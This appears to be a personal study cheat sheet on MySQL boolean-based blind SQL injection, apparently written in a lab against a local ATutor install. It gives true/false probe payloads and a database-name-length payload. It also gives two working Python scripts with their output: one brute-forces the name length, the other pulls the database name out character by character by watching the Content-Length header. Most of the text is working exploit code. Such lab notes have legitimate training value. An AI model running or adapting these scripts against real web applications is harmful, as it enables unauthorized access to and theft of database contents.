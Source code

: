 ## MySQL Boolean Based Blind SQLi

- Identifying the vulnerability:
> - My Opinion and experience (don't take it literally but I guess it's true (for me atleast)):
>   - Normally Boolean Based Blind SQLi can be detected by keeping an eye on `Content-Length` header when payload is introduced.
>   - A drastic change in response length when some query returns true as compared to when something returns false is a 100% sure giveaway of a vulnerability.
> - Payload
> - True  
> ```sql
> AND 1=1
> AND 1=1 AND 'a'='a'
> ```
> - False
> ```sql
> AND 1=1 and 'a'='b'
> ```

- Exploitation:
- Retrieving the length of database name
> - Keep an eye on `Content-Length`
> - Payload: to check if the database name is of length 15
> ```sql
> and (length(database())) = 15 --
> ```

> - Script:
> ```python
> import multiprocessing as mp
> import requests
>
> target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>
> def db_length(number):
>     payload = f"te')/**/or/**/(length(database()))={number}#"
>     param = {'q': payload}
>     r = requests.get(target, param)
>     content_length = int(r.headers['Content-length'])
>     if content_length > 20:
>         print(number)
>
> if __name__ == "__main__":
>     print('[*] Retreiving Database Length: \n[*] Database length: ', end=' ')
>     processes = []
>     for number in range(30):
>         p = mp.Process(target=db_length, args=[number])
>         p.start()
>         processes.append(p)
>     for process in processes:
>         process.join()
>
>     
> ```
> - Output:
> ```
>  python .\atutor_dblength.py
> [*] Retreiving Database Length:
> [*] Database length: 6
> ```

- Retrieving the database name
> - We should use ASCII function coz most of the time single quotes or double quotes might cause errors or problems.
> - Refer the following to see char to ascii conversion: https://www.rapidtables.com/code/text/ascii-table.html
> - Payload
> ```sql
> and (select ascii(substring(database(),1, 1)) = 110)#
> ```

> - Script (Slow)
> ```python
> import requests
>
> def atutor_dbRetrieval():
>     target = "http://localhost/atutor/mods/_standard/social/index_public.php"
>     i = 1
>     final_string = ""
>     prev_length = -1
>     current_length = len(final_string)
>     while prev_length < current_length:
>         for j in range(32, 256):
>             payload = f"te')/**/or/**/(select/**/ascii(substring(database(),{i},1))={j})#"
>             param = {'q': payload}
>             r = requests.get(target, param)
>             content_length = int(r.headers['Content-length'])
>             if content_length > 20:
>                 final_string += chr(j)
>                 current_length = len(final_string.strip())
>                 print(final_string)
>                 break
>         prev_length += 1
>         i += 1
>     return final_string
>
> if __name__ == "__main__":
>     print("[+] Retrieving Database name: ....")
>     print("[+] Database Version: ", atutor_dbRetrieval())
>     print("[+] Done")
> ```
> ```
> Output:
> python .\atutor_dbRetrieval.py
> [+] Retrieving Database name: ....
> a
> at
> atu
> atut
> atuto
> atutor
> [+] Database Version:  atutor
> [+] Done
> ```
